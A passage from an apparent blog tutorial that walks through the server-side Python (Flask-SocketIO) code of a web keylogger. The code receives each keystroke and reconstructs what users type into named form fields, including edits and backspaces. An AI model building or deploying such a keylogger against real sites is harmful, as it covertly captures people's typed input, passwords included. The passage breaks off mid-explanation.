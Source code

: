 {% highlight python %}

@socketio.on('keydown', namespace='/keylogger')
def keydown(message):

    keystroke = message['data']['ks']
    ctrl_pressed = message['data']['ctrl']
    alt_pressed = message['data']['alt']
    shift_pressed = message['data']['shift']
    selection_start = message['data']['start_pos']
    selection_end = message['data']['end_pos']
	name = message['data']['name']

{% endhighlight %}
	
We use the input tag's name attribute to identify what field the user is typing into. There are far more accurate and reliable ways of doing this. However, we avoid using them for the sake of keeping this tutorial straightforward. We first check to see if the name is already in our input_tags dictionary. If it is not, then we add a new entry to the dictionary such that the name of the input tag maps to an empty list. This list will later contain the contents of the input field the user is typing into. We then set a variable 'contents' to point to the list mapped to by the name attribute. When 'contents' is modified, input_tags[name] will be modified as well.

{% highlight python %}

	if name not in input_tags:
		input_tags[name] = []
	contents = input_tags[name]

{% endhighlight %}
	
We then check to see if either the control or alt keys have been pressed, or if the key does not correspond to a printable character. If any of these conditions are true, then keydown returns immediately, as the keystroke does not correspond to text input from the user.

{% highlight python %}

    if ctrl_pressed or alt_pressed or not tables.is_printable(keystroke):
        return

{% endhighlight %}

The keystroke is then mapped to a preliminary character using our keyboard lookup table. We say the character is preliminary because its value may need to be changed if the shift key has been pressed.

{% highlight python %}

    keystroke = tables.keyboard[keystroke]

{% endhighlight %}

We then check to see if the preliminary character is a backspace. If the character is a backspace, we either delete any text the user has highlighted or delete the character immediately preceding the user's cursor.

{% highlight python %}

    if keystroke == 'BACK_SPACE':

        if selection_start == selection_end and selection_start != 0:
            contents.pop(selection_start-1)
        else:
            del contents[selection_start:selection_end]

{% endhighlight %}
